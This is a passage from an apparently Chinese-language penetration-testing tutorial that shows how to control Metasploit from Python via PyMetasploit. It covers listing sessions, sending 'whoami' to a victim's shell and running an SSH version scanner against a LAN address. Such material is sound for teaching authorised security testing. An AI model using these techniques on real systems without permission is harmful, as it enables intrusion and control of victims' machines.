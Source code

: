 如果执行成功，则输出如下：

```py
{'job_id': 17, 'uuid': 'oxutdiys'}

```

如果失败，`job_id`将为 none。

接下来，如果攻击成功，我们可以使用会话方法访问 shell 和控制台：

```py
client.sessions.list

```

这将列出所有当前活动的会话。如果攻击为受害者提供了 shell 访问权限，那么我们可以获取可用的 shell，并使用以下方法访问它们：

```py
shell = client.sessions.session(1) 
shell.write('whoami\n') 
print shell.read() 

```

我们还可以连接到控制台并运行命令，就像在`msfconsole`中一样：

导入模块：

```py
from metasploit.msfrpc import MsfRpcClient 
from metasploit.msfconsole import MsfRpcConsole 

```

创建客户端：

```py
client = MsfRpcClient('123456', user='msf') 

```

使用客户端创建控制台：

```py
console = MsfRpcConsole(client) 

```

现在我们可以使用这个实例来运行 Metasploit 命令，如下所示：

```py
console.execute('use scanner/ssh/ssh_version') 
console.execute('set RHOSTS 192.168.1.119') 
console.execute('set VERBOSE True') 
console.execute('run')

```

输出将打印在控制台本身。

在这里，我们使用了 PyMetasploit 模块，但我们也可以使用 msgrpc 模块（[`github.com/SpiderLabs/msfrpc`](https://github.com/SpiderLabs/msfrpc)）。这将帮助我们访问底层功能，并在脚本中处理结果和控制台输出。
